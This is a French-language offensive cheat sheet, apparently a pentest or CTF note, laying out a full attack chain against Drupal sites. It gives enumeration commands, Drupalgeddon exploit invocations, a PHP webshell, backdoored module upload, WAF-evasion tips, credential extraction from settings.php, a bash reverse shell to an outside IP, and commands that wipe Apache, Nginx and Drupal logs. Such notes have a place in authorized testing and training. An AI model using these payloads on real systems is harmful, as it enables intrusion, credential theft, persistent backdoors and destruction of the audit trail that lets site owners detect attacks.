

## Chaîne d'attaque Drupal



## Identification et Énumération

### Identification du CMS
```bash
curl -s http://target | grep -i drupal
whatweb http://target
```

### Énumération de version
> [!info]
> La version de Drupal est souvent masquée dans les versions récentes (CHANGELOG.txt bloqué).

```bash
curl -s http://target/CHANGELOG.txt | head -n 10
curl -s http://target/core/CHANGELOG.txt | head -n 10
droopescan scan drupal -u http://target
```

### Énumération de modules et répertoires
```bash
dirsearch -u http://target/ -e php,txt,tar -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u http://target -w drupal-wordlist.txt
```

| Répertoire | Description |
| :--- | :--- |
| `/modules/` | Modules installés |
| `/themes/` | Thèmes actifs |
| `/sites/` | Configuration et fichiers |
| `/core/` | Noyau Drupal |
| `/profiles/` | Profils d'installation |

## Vulnérabilités connues (CVE)

| CVE | Description | Version concernée |
| :--- | :--- | :--- |
| **CVE-2014-3704** | Drupalgeddon 1 (SQLi) | 7.0 - 7.31 |
| **CVE-2018-7600** | Drupalgeddon 2 (RCE) | < 7.58 / < 8.5.1 |
| **CVE-2018-7602** | Drupalgeddon 3 (RCE) | < 7.59 / < 8.5.3 |
| **CVE-2019-6340** | RCE via REST | Drupal 8.x (REST activé) |

> [!warning]
> L'exploitation de **Drupalgeddon 3** nécessite une session authentifiée valide.

### Exemples d'exploitation
**Drupalgeddon 2 (RCE anonyme) :**
```bash
python3 drupalgeddon2.py http://target/
```

**Drupalgeddon 3 (via Metasploit) :**
```bash
use exploit/multi/http/drupal_drupageddon3
set RHOSTS <IP>
set VHOST <vhost>
set DRUPAL_NODE 1
set DRUPAL_SESSION <cookie>
set LHOST <ton_ip>
run
```

## Techniques d'exploitation avancées

### Attaques via PHP Filter
> [!tip]
> Nécessite un accès administrateur. Voir note **PHP Filter**.

1. Activer le module **PHP Filter** dans `/admin/modules`.
2. Créer une nouvelle page (`/node/add/page`) contenant :
```php
<?php system($_GET['cmd']); ?>
```
3. Exécuter : `http://target/node/NODE_ID?cmd=id`

### Upload de modules backdoorés
> [!danger]
> L'upload de modules backdoorés nécessite des droits d'administration. Attention à la persistance : les webshells peuvent être détectés par des solutions EDR/AV. Voir note **Webshells**.

1. Préparer le module :
```bash
wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
# Ajouter shell.php dans le répertoire
tar czvf captcha.tar.gz captcha/
```
2. Importer via `/admin/modules/install`.
3. Accéder au shell : `http://target/modules/captcha/shell.php?cmd=id`

### Techniques de bypass WAF/IDS
Pour contourner les WAF bloquant les payloads de type Drupalgeddon :
- **Encodage :** Utiliser des encodages doubles (URL encoding) sur les paramètres POST.
- **Fragmentation :** Envoyer des requêtes HTTP fragmentées si le WAF ne réassemble pas correctement.
- **Changement de User-Agent :** Utiliser des User-Agents légitimes pour éviter les signatures basiques.
- **Utilisation de Burp Suite :** Utiliser l'extension **Burp Suite** pour tester des payloads modifiés manuellement.

## Audit de configuration de base de données
L'accès au fichier `settings.php` permet de récupérer les credentials de la base de données.

```bash
cat sites/default/settings.php | grep -A 10 "databases"
```

Vérifier les permissions de la base de données :
```bash
mysql -u <user> -p<password> -h <db_host> -e "SHOW GRANTS FOR CURRENT_USER();"
```

## Post-Exploitation

### Fichiers sensibles
| Fichier | Utilité |
| :--- | :--- |
| `/sites/default/settings.php` | Identifiants de base de données, hash secret |
| `/sites/default/services.yml` | Configuration des services |

### Reverse Shell
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.XX/4444 0>&1'"); ?>
```

```bash
nc -lvnp 4444
```

### Privilege Escalation (spécifique à Drupal/Linux)
1. **Hash de mot de passe :** Extraire les hashs depuis la table `users` et tenter un crack hors-ligne.
2. **Configuration système :** Vérifier les fichiers de configuration pour des credentials réutilisés (SSH, API).
3. **Cronjobs :** Drupal utilise souvent des tâches planifiées (`drush cron`). Vérifier si le script exécuté est modifiable.
4. **Permissions :** Vérifier les droits sur les répertoires `sites/default/files` souvent configurés avec des permissions trop permissives.

### Nettoyage des traces (Log clearing)
Suppression des logs d'accès et des entrées dans la base de données :
```bash
# Suppression des logs Apache/Nginx
echo > /var/log/apache2/access.log
echo > /var/log/nginx/access.log

# Suppression des logs Drupal via SQL
mysql -u <user> -p<password> <db_name> -e "TRUNCATE watchdog;"
```

### Outils de référence
* **droopescan** : Énumération de version et modules.
* **cmsmap.py** : Automatisation de l'énumération.
* **searchsploit** : Recherche de vulnérabilités locales.
* **Metasploit** : Exploitation des vulnérabilités **Drupalgeddon**.
* **Burp Suite** : Analyse des requêtes et bypass WAF.
* **FFUF** : Fuzzing de répertoires et fichiers (voir note **FFUF**).